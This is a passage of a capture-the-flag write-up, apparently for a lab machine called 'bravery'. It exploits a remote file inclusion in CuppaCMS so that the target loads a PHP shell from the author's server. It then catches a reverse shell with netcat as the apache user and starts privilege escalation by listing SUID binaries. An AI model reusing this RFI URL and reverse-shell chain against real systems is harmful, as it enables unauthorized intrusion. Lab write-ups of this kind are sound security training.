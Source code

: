 CuppaCMS is vulnerable to [RFI](https://www.exploit-db.com/exploits/25971). So, let's get a reverse shell. You just have to set up a server, upload the shell and then access via RFI with the address http://10.0.2.35/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=10.0.2.19/shell.php.

```Console
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.19] from (UNKNOWN) [10.0.2.35] 51752
Linux bravery 3.10.0-862.3.2.el7.x86_64 #1 SMP Mon May 21 23:36:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 14:35:14 up 58 min,  0 users,  load average: 0.04, 0.16, 0.58
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-4.2$ whoami
whoami
apache
```

## Privilege Escalation
Let's search files with SUID perm:
```Console
bash-4.2$ find / -perm -4000 2>/dev/null
/usr/bin/cp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/Xorg
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/ksu
/usr/bin/at
/usr/bin/staprun
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper                                                   
/usr/libexec/flatpak-bwrap                                                                      
/usr/libexec/sssd/krb5_child                                                                     
/usr/libexec/sssd/ldap_child                                                                     
/usr/libexec/sssd/selinux_child                                                                  
/usr/libexec/sssd/proxy_child                                                                   
/usr/libexec/qemu-bridge-helper                                                                 
/usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper                                   
/usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
```
